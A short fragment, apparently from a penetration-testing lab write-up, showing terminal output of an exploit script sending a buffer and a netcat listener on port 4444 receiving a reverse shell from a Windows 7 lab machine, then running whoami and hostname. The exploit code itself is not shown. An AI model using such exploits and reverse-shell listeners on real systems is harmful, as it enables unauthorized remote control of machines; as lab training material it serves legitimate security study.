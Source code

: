 ```
> python exploit.py
[*] Sending buffer

____________________________________________________________________________

> nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.106] from (UNKNOWN) [192.168.0.104] 49190
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\win7bits\Desktop\vulnerable-apps\oscp>whoami
whoami
win7\win7bits

C:\Users\win7bits\Desktop\vulnerable-apps\oscp>hostname
hostname
win7

```
